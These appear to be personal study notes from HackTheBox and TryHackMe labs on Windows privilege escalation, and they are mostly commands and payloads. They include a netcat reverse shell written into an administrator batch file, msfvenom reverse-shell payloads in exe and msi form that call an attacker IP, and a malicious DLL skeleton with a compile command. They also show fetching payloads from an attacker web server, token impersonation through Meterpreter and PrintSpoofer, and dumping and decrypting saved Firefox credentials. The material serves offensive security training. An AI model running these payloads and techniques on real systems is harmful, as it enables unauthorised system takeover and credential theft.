



Windows
A) Using winpeas
Assuming we already have user privilege. Get the tool for Privilege Escalation.
https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
Run The web server in Attacker Machine to host the winPEASx64.exe:
python3 -m http.server 80
On Target Machine:
powershell
wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe

PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
Note: The output of the tool is long, here you will see just the small(Important) part of the output.

We can navigate to the folder where the PowerShell history is stored:

To read the file, we will type type ConsoleHost_history.txt :

Thus, we get the password.
B) Using a admin program that runs in a batch file.
In the following job.bat uses an admin program but can be fully accessed by the user. We exploit this.

The purpose of job.bat seems to be related to clearing logfiles, and it can only be run with an
Administrator account. There is also mention of an executable named wevtutil , which upon further
investigation is determined to be a Windows command that has the ability to retrieve information about
event logs and publishers. It can also install and uninstall event manifests, run queries and export, archive
and clear logs. We now understand the use of it in this case, alongside the el and cl parameters found in
the job.bat file.
Since the file itself can only be run by an Administrator, we could try our luck and see if our usergroup could
at least edit the file, instead of running it, or if there are any mismatched permissions between the script
and the usergroup or file configuration. We can achieve this by using the icacls command.

Looking at the permissions of job.bat using icacls reveals that the group BUILTIN\Users has full
control (F) over the file. The BUILTIN\Users group represents all local users, which includes Daniel as
well. We might be able to get a shell by transferring netcat to the system and modifying the script to
execute a reverse shell.
Before then, we need to check if the wevtutil process mentioned in the job.bat file is running. We can
see the currently scheduled tasks by typing the schtasks command. If our permission level doesn't allow
us to view this list through Windows' command line, we can quickly use powershell's ps command instead,
which represents another security misconfiguration that works against the server.

We can see that the process wevtutil is running, which is the same process listed in the job.bat file. This
indicates that the .bat script might be executing. (Required)
Because the target host does not have access to the Internet, we will need to deliver the nc64.exe
executable through our own connection with the target. In order to do so, we will first need to download
nc64.exe on our system, start up a Python HTTP server on one of our ports, then switch to the shell we
have on the host to issue a wget command with our address and the nc64.exe file residing on our server.
This will initialize a download from the host to our Python server for the executable. Make sure you don't
switch folders after downloading the executable. The Python HTTP server needs to be running in the same
directory as the location of the downloaded nc64.exe file we want to deliver to the target.
In order to download the executable on our system, we can use this link:
https://github.com/int0x33/nc.exe/blob/master/nc64.exe
Since we have full control over the job.bat script, we will modify its' contents by running the following
command. Make sure to run it from the Windows Command Line, where the daniel@MARKUP user is
displayed before every command, and not from Windows PowerShell, where PS is displayed before every
command. As before, make sure to change the {your_IP} parameter with the IP address assigned to your
tun0 interface and the {port} parameter with a port of your choice, which you will listen for connections
on.
echo C:\Log-Management\nc64.exe -e cmd.exe {your_IP} {port} > C:\Log-Management\job.bat
Then listen in netcat.
THM:
Windows systems have different user privilege levels. Accounts can belong to regular users, who would only have enough privileges to log into the system. Some user levels you will most commonly see are listed below:
▪ Administrator (local): This is the user with the most privileges.
▪ Standard (local): These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system.
▪ Guest: This account gives access to the system but is not defined as a user.
▪ Standard (domain): Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges.
▪ Administrator (domain): Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain.
You may see some sources refer to "SYSTEM" as a privileged account. It is worth noting that "SYSTEM" is not an account in the proper sense. Windows and its services use the "SYSTEM" account to perform their tasks. Services installed on a Windows target system can use service accounts and will have a certain level of privilege, depending on the service using them. Service accounts do not allow you to log in but can be leveraged in other ways for privilege escalation.

Typically, privilege escalation will require you to follow a methodology similar to the one given below:
1. Enumerate the current user's privileges and resources it can access.
2. If the antivirus software allows it, run an automated enumeration script such as winPEAS or PowerUp.ps1
3. If the initial enumeration and scripts do not uncover an obvious strategy, try a different approach (e.g. manually go over a checklist like the one provided below)
Checklist:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
Local Prevelege Escalation Guide/Walkthrough for Windows/Linux in PDF:
https://github.com/sagishahar/lpeworkshop
Key Processes:
User Enumeration:
The following commands will help us enumerate users and their privileges on the target system.
whoami /priv : Current user’s privileges
net users : List Users
net user username : List Details of a user
(e.g. net user Administrator)
qwinsta : Other users logged in simultaneously:
(the query session command can be used the same way)
net localgroup : User groups defined on the system
net localgroup groupname : List members of a specific group
(e.g. net localgroup Administrators)
Collecting system information:
systeminfo : Returns overview of the target system
(e.g. systeminfo | findstr /B /C:"OS Name" /C:"OS Version")
hostname : Returns name of the system
Searching Processes:
tasklist : Lists all running processes (tasklist /v : For verbose output)
Searching files:
findstr : Command can be used to find files containing a string.
eg.
findstr /si password *.txt
- findstr: Searches for patterns of text in files.
- /si: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)
- password: The command will search for the string “password” in files
- *.txt: The search will cover files that have a .txt extension. eg “.txt”, “.xml”, “.ini”, “*.config”, and “.xls”
Patch Level:
Microsoft regularly releases updates and patches for Windows systems. A missing critical patch on the target system can be an easily exploitable ticket to privilege escalation. The command below can be used to list updates installed on the target system.
wmic qfe get Caption,Description,HotFixID,InstalledOn
Deprecated in Windows 10, version 21H1 (2021 First Release). Now moved to WMI PowerShell cmdlet
Network Connections:
netstat -ano
-a: Displays all active connections and listening ports on the target system.
-n: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
-o: Displays the process ID using each listed connection.
Note: Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service.
Scheduled Tasks:
Some tasks may be scheduled to run at predefined times. If they run with a privileged account (e.g. the System Administrator account) and the executable they run can be modified by the current user you have, an easy path for privilege escalation can be available.
schtasks /query /fo LIST /v
Drivers:
The driverquery command will list drivers installed on the target system. You will need to do some online research about the drivers listed and see if any presents a potential privilege escalation vulnerability.
driverquery
Antivirus:
Typically, you can take two approaches to check for antivirus: (a)looking for the antivirus specifically or (b)listing all running services and checking which ones may belong to antivirus software.
(a)The first approach may require some research beforehand to learn more about service names used by the antivirus software. For example, the default antivirus installed on Windows systems, Windows Defender’s service name is windefend. The query below will search for a service named “windefend” and return its current state.
sc query windefend
(b)While the second approach will allow you to detect antivirus software without prior knowledge about its service name, the output may be overwhelming.
sc queryex type=service
Using Automated Tools:
1) WinPEAS
WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the precompiled executable or a .bat script. Please note, Windows Defender detects and disables winPEAS. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file, as shown below:
winpeas.exe > outputfile.txt
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
2) PowerUp
PowerUp is a PowerShell script that searches common privilege escalation on the target system. You can run it with the Invoke-AllChecks option that will perform all possible checks on the target system or use it to conduct specific checks (e.g. the Get-UnquotedService option to only look for potential unquoted service path vulnerabilities).
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
Note: To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below
C:\Users\user\Desktop>powershell.exe -nop -exec bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Users\user\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\user\Desktop> Invoke-AllChecks
[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
3) Windows Exploit Suggester
Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use Windows Exploit Suggester, which will run on your attacking machine (e.g. Kali or TryHackMe AttackBox).
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
Once installed, and before you use it, type the windows-exploit-suggester.py –update command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.
Important: To use the script, you will need to run the systeminfo command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine. (Say sysinfo_output.txt)
On Target Machine.
systeminfo > sysinfo_output.txt
Send this txt file to attacker.
Once this is done, windows-exploit-suggester.py can be run as follows;
On Attacker Machine.
windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt
4) Metasploit
If you already have a Meterpreter shell on the target system, you can use the multi/recon/local_exploit_suggester module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.
Using Vulnerable Software:
Software installed on the target system can present various privilege escalation opportunities. As with drivers, organizations and users may not update them as often as they update the operating system. You can use the wmic tool seen previously to list software installed on the target system and its versions. The command below will dump information it can gather on installed software.
wmic product
This output is not easy to read, and depending on the screen size over which you have access to the target system; it can seem impossible to find anything useful. You could filter the output to obtain a cleaner output with the command below.
wmic product get name,version,vendor
Be careful; due to some backward compatibility issues (e.g. software written for 32 bits systems running on 64 bits), the wmic product command may not return all installed programs. The target machine attached to this task will provide you with some hints. You will see shortcuts for installed software, and you will notice they do not appear in the results of the wmic product command. Therefore, It is worth checking running services using the command below to have a better understanding of the target system.
wmic service list brief
As the output of this command can be overwhelming, you can grep the output for running services by adding a findstr command as shown below.
wmic service list brief | findstr "Running"
If you need more information on any service, you can simply use the sc qc command as seen below.
eg.
C:\Users\user>sc qc RemoteMouseService
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: RemoteMouseService
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Program Files (x86)\Remote Mouse\RemoteMouseService.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : RemoteMouseService
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem
C:\Users\user>
The above contains "Unquoted Service Path" vulnerability that can be used for prevelege escalation using google/searchploit etc/
Using DLL Hijacking:
DLL hijacking is an effective technique that can allow you to inject code into an application. Some Windows executables will use Dynamic Link Libraries (DLLs) when running. We think of DLLs as files that store additional functions that support the main function of the .exe file. In a way, DLLs are executable files, but they can not be run directly like an exe file. They should be launched by other applications (or exe in most cases). If we can switch the legitimate DLL file with a specially crafted DLL file, our code will be run by the application. DLL hijacking requires an application (typically an exe file) that either has a missing DLL file, or where the search order can be used to insert the malicious DLL file.
A DLL Hijacking scenario consists of replacing a legitimate DLL file with a malicious DLL file that will be called by the executable and run. By this point, you may have an idea about the specific conditions required for a successful DLL hijacking attack. These can be summarized as;
1) An application that uses one or more DLL files.
2) A way to manipulate these DLL files.
3) The application should not be able to find the legitimate DLL before our modified DLL.(Check Search Order Below)
Search Order######
If SafeDllSearchMode is enabled, the search order is as follows:
1-The directory from which the application loaded
2-The system directory. Use the GetSystemDirectory function to get the path of this directory.
3-The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
4-The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
5-The current directory.
6-The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.
If SafeDllSearchMode is disabled, the search order is as follows:
1-The directory from which the application loaded.
2-The current directory.
3-The system directory. Use the GetSystemDirectory function to get the path of this directory.
4-The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
5-The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
6-The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.
The tool you can use to find potential DLL hijacking vulnerabilities is Process Monitor (ProcMon). As ProcMon will require administrative privileges to work
Skeleton Code for the Malicious DLL:
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
ExitProcess(0);
}
return TRUE;
}
Then compile it:
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
Then copy the malicious dll to the location where the application is searching for.
To send the dll file to target machine. Host a web sever.
In target powershell: wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
Finally Stop and Start the Service
sc stop dllsvc & sc start dllsvc
Note: This service is an example which is running on thm box. Nomrally, we need to find the service that is searching for a dll using the process monitor tool or similar.
Using Unquoted Service Path:
wmic service get name,displayname,pathname,startmode
This will list services with path name for us to inspect.
Once we find an intresting serviive without quotes. We can further inspect it by following.
sc qc servicename
sc query servicename
eg. sc qc unquotedsvc
Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
Note: We need to sent this executable to the target machine
From above we see normal user have write access inside the "C:\Program Files\Unquoted Path Service" folder
Once we know we have write access, use msfvenom to create a payload that has the name of the folder before space(Common.exe). We copy it inside the “C:\Program Files\Unquoted Path Service” directory.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.31 LPORT=7777 -f exe > Common.exe
Once the payload is ready. We can start the service.
sc start unquotedsvc
Then finally listen to the reverse shell.
Using Token Impersonation:(Research Further)
Works before windows server 2019 and windows 10
Uses the "SeImpersonatePrivilege"
Can be checked by whoami /priv
A high preveleged service is subjected to internal MITM attack. Then the token is impersonated for other services eg, samba, rpc
Examples:
Hot Potato - SMB
Rotten potato - RPC
Lonely Potato
Juicy Potato
Note: Hot Potato is full internal while others might require to create a server on the network.
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
This access token consists of:
user SIDs(security identifier)
group SIDs
privileges
There are two types of access tokens:
- primary access tokens: those associated with a user account that are generated on log on
- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process
For an impersonation token, there are different levels:
SecurityAnonymous: current user/client cannot impersonate another user/client
SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
SecurityImpersonation: current user/client can impersonate the client's security context on the local system
SecurityDelegation: current user/client can impersonate the client's security context on a remote system
where the security context is a data structure that contains users' relevant security information.
The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
• SeImpersonatePrivilege
• SeAssignPrimaryPrivilege
• SeTcbPrivilege
• SeBackupPrivilege
• SeRestorePrivilege
• SeCreateTokenPrivilege
• SeLoadDriverPrivilege
• SeTakeOwnershipPrivilege
• SeDebugPrivilege
Check privileges with “whoami /priv” Or on meterpreter use “getprivs”
SeDebugPrivilege, SeImpersonatePrivilege are the ones that help to escalate the privelege. Both are enabled here.
In the meterpreter:
load incognito : Loads the Incognito extention of meterpreter used for token impersonation
list_tokens -g : It will list all available tokens
impersonate_token BUILTIN\Administrators : This will impersonate the Administrator token
Verify with getuid
We are now NT AUTHORITY\SYSTEM as token but we still need a high privelege process.
ideally migrate to a high privelege process. eg.lsass.exe or services.exe
use ps command to show all process.
getpid to show our current process ID.
migrate PID to go to a high privelege process
Now we have successfully elevated the priveleges.
Some Other General Methods:
1) Scheduled Tasks
Can be run by schtask command, already discussed earlier for a bit.
if any deleted binary or binary that can be modified by us is running with higher prevelege, this can be exploited.
2) AlwaysInstallElevated
We can check in resgistry if windows msi installer has high prevelege. If so we can use msfvenom and exploit this.
Check:
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
Note: Both the key has to be set.
If both set, we msfvenom to get a msi file.
msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
Then, send to target system and run as following.
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
3) Passwords
A->Saved credentials: Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.
cmdkey /list
If you see any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
runas /savecred /user:admin reverse_shell.exe
B->Registry keys: Registry keys potentially containing passwords can be queried using the commands below.
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
C->Unattend files: Unattend.xml files helps system administrators setting up Windows systems. They need to be deleted once the setup is complete but can sometimes be forgotten on the system. What you will find in the unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading.
Using Token Impersonation:(Example)
It uses SeImpersonatePrivilege and requires it to be enabled.
https://github.com/itm4n/PrintSpoofer
We download the PrintSpoofer64.exe from the github release.
We upload it to the server using smb.
put PrintSpoofer64.exe
We find the location in our revershell using the “net share” command that lists all windows shares.
Or
Any other method. eg Powershell File Download after creating a local web server in attacker machine.
We go to the location and run:
Printspoofer64.exe -i -c cmd.exe
Using Firefox dump:
It is required that firefox is running on the target machine and we have a captures meterpreter session.
We use a msfconsole post exploit tool to dump the credentials.
use post/multi/gather/firefox_creds
Give session id as option
run
We will get the files in loot folder.

Now go to the locations of loot and copy/move the files with their actual names.
After move/copy the following should be the contents.

Then get the firefox_decrypt from github. https://github.com/unode/firefox_decrypt
Then run it inside the dump folder using.
python /opt/firefox_decrypt/firefox_decrypt.py .

As we can see, we got username and password. Its actually admin user.